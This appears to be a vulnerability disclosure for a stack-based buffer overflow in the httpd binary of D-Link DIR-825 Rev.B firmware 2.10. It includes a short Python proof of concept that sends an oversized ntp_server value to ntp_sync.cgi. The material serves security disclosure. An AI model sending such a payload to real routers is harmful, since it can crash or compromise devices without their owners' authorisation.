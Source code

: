 ### Description 
```
there is a stack-based buffer overflow vulnerability that can be used to execute any code after user authentication 

Vulnerability location: file:  /sbin/httpd

The attacker calls this function by sending a post packet to the http://ip/ntp_sync.cgi
```

### Firmware version
```
version: Rev.B 2.10
download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/
```

### Post package
```
   5 ip = "http://192.168.0.1/"
   6 url = ip + 'ntp_sync.cgi '
   7
   8 command = 'A'* 0x50
   9
  10 payload = {
  11     'ntp_server': command,
  12 }
  13
  14 r = requests.post(url, data=payload)
```

### Exploit exp
`python3 ntp-server-overflow.py`

### Example output
![Example output](./img/ntp-server-overflow.jpg)
